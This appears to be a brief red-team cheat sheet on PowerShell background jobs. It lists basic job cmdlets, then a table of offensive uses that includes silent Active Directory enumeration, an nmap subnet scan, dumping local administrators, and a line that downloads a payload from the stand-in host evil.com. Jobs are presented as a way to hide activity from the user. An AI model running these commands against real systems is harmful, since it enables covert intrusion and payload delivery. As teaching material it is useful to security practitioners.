 ## ⚙️ What Are PowerShell Jobs?

PowerShell **Jobs** are background processes that allow you to execute commands **asynchronously**, meaning they won’t block the main PowerShell session. They’re particularly useful when:
- Executing long-running commands
- Hiding enumeration or payloads from the user’s console
- Reducing operational footprint (OPSEC)

---

## 🛠️ Essential PowerShell Job Commands

### ▶️ Start a job in the background

Start-Job -ScriptBlock { COMMAND }

### 📄 View all running or completed jobs

Get-Job

### 📥 Receive the output of a job

Receive-Job -Id  id;

### 🧼 Remove a specific job

Remove-Job -Id  id ;

### ❌ Remove all jobs

Get-Job | Remove-Job

### 🔍 Find cmdlets that support `-AsJob`

Get-Command -ParameterName AsJob

### ▶️ Example: Run a supported command as a job

Get-Process -Name explorer -AsJob

---

## 🧪 Red Team Examples Using PowerShell Jobs

| 🎯 Objective | 💻 Job Example |
|-------------|----------------|
| **Silent Enumeration** | Start-Job { Get-ADUser -Filter * } |
| **Download Payload Silently** | Start-Job { Invoke-WebRequest -Uri "http://evil.com/payload.exe" -OutFile "$env:TEMP\payload.exe" } |
| **Run Recon Tool in Background** | Start-Job { nmap -sS 10.0.0.0/24 -oN C:\Users\Public\scan.txt } |
| **Dump Local Admins** | Start-Job { Get-NetLocalGroupMember -GroupName "Administrators" | Out-File C:\Users\Public\admins.txt } |

---